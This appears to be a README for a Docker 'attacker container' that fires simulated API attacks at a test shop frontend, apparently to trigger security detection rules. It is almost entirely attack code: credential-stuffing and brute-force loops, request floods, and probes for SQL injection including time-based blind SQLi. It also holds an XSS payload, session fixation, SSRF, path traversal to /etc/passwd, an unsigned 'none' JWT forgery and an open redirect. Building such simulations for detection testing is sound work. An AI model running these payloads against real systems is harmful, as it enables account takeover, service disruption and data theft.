 # Attacker Container


```bash
# Directory structure for attack_scripts/
attack_scripts/
├── 1_credential_stuffing.sh
├── 2_password_reset_abuse.sh
├── 3_auth_endpoint_errors.sh
├── 4_rate_limit_abuse.sh
├── 5_http_protocol_misconfig.sh
├── 6_high_traffic_endpoint.sh
├── 7_4xx_error_generation.sh
├── 8_method_enumeration.sh
└── start_attacks.sh
```

**1_credential_stuffing.sh** (api_token_excessive_error_rates_to_auth_endpoint):
```bash
#!/bin/sh
TARGET="${BASE_URL}/signin"
TOKEN="fixed_malicious_token_123"

for i in $(seq 1 30); do
  curl -X POST "$TARGET" \
    -H "Authorization: Bearer $TOKEN" \
    -d "username=user$i&password=badpassword" &
done
wait
```

**2_password_reset_abuse.sh** (api_token_excessive_error_rates_to_reset_password_endpoint):
```bash
#!/bin/sh
TARGET="${BASE_URL}/reset_password"
TOKEN="fixed_malicious_token_456"

for i in $(seq 1 30); do
  curl -X POST "$TARGET" \
    -H "Authorization: Bearer $TOKEN" \
    -d "email=user$i@example.com" &
done
wait
```

**3_auth_endpoint_errors.sh** (api_token_excessive_error_rates):
```bash
#!/bin/sh
ENDPOINTS=("signin" "signup" "auth" "authenticate")
TOKEN="fixed_malicious_token_789"

for endpoint in "${ENDPOINTS[@]}"; do
  for i in $(seq 1 10); do
    curl -X POST "${BASE_URL}/${endpoint}" \
      -H "Authorization: Bearer $TOKEN" \
      -d "username=user$i&password=wrong" &
  done
done
wait
```

**4_rate_limit_abuse.sh** (api_rate_limit + api_high_traffic_to_endpoint):
```bash
#!/bin/sh
TARGET="${BASE_URL}/product/1"
hey -z 1m -c 50 -q 10 "$TARGET"
```

**5_http_protocol_misconfig.sh** (security_misconfig_http_protocol):
```bash
#!/bin/sh
# Test HTTP endpoints that should be HTTPS
curl -I http://${TARGET_HOST}:8080${BASE_URL}/profile
curl -X POST http://${TARGET_HOST}:8080${BASE_URL}/token
```

**6_high_traffic_endpoint.sh** (api_high_traffic_to_endpoint):
```bash
#!/bin/sh
siege -b -t1M -c 25 "${BASE_URL}/multi_method"
```

**7_4xx_error_generation.sh** (4XX_api_error_code_to_endpoint):
```bash
#!/bin/sh
# Generate 401/403 errors
curl -H "Content-Type: application/json" "${BASE_URL}/profile"
curl -X PUT "${BASE_URL}/multi_method"
```

**8_method_enumeration.sh** (api_methods_to_endpoint_with_same_token):
```bash
#!/bin/sh
TOKEN="fixed_malicious_token_321"
ENDPOINT="${BASE_URL}/multi_method"

for method in GET POST PUT DELETE PATCH; do
  curl -X $method "$ENDPOINT" \
    -H "Authorization: Bearer $TOKEN"
done
```

**start_attacks.sh** (Main executor):
```bash
#!/bin/sh
export BASE_URL="http://${TARGET_HOST}:8080"  # Set this in Docker run command

## Attacks sequentially with 5s spacing
./1_credential_stuffing.sh && sleep 5
./2_password_reset_abuse.sh && sleep 5
./3_auth_endpoint_errors.sh && sleep 5
./4_rate_limit_abuse.sh &  # Run in background
./5_http_protocol_misconfig.sh
./6_high_traffic_endpoint.sh
./7_4xx_error_generation.sh
./8_method_enumeration.sh
wait
```


# Extra simulations

```bash
# Container setup (run this first)
docker run -it --network host --name attacker alpine sh
apk add curl nmap sqlmap hydra nikto

# ----------------------------------
# 1. Credential Stuffing Attacks
# Targets: /signin, /auth, /authenticate

# Basic password spraying
for user in $(cat users.txt); do
  curl -X POST "http://frontend:8080${BASE_URL}/signin" \
    -d "username=${user}&password=Spring2023!"
done

# ----------------------------------
# 2. SQL Injection Probes
# Targets: /signup, /profile, /product/{id}

# SQLi in product endpoint
curl "http://frontend:8080${BASE_URL}/product/1'%20OR%201=1--"

# Time-based blind SQLi
curl "http://frontend:8080${BASE_URL}/profile?id=1%20AND%201=SLEEP(10)"

# ----------------------------------
# 3. XSS Testing
# Targets: /product/{id}, /profile, /chatbot

# Simple XSS probe
curl -X POST "http://frontend:8080${BASE_URL}/bot" \
  -d 'message=<script>alert(1)</script>'

# ----------------------------------
# 4. Broken Authentication
# Targets: /session/renew, /oauth, /token

# Session fixation test
curl -v -b "shop_session-id=attacker_session" \
  "http://frontend:8080${BASE_URL}/session/renew"

# ----------------------------------
# 5. SSRF Attempts
# Targets: /product-meta, /assistant

curl "http://frontend:8080${BASE_URL}/product-meta/1,2,http://internal-server"

# ----------------------------------
# 6. Directory Traversal
# Targets: /static/, /profile

curl "http://frontend:8080${BASE_URL}/static../etc/passwd"

# ----------------------------------
# 7. API Abuse
# Targets: /multi_method, /token

# Unexpected method testing
curl -X TRACE "http://frontend:8080${BASE_URL}/multi_method"

# ----------------------------------
# 8. Rate Limiting Tests
# Targets: /signin, /oauth

# Brute force simulation
for i in {1..100}; do
  curl -X POST "http://frontend:8080${BASE_URL}/signin" \
    -d "username=admin&password=guess${i}"
done

# ----------------------------------
# 9. JWT Tampering
# Targets: /auth, /token

# Modified JWT header
curl -H "Authorization: Bearer eyJhbGciOiJub25lIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIn0." \
  "http://frontend:8080${BASE_URL}/profile"

# ----------------------------------
# 10. Open Redirect
# Targets: /oauth, /logout

curl "http://frontend:8080${BASE_URL}/logout?redirect=http://malicious-site.com"
```
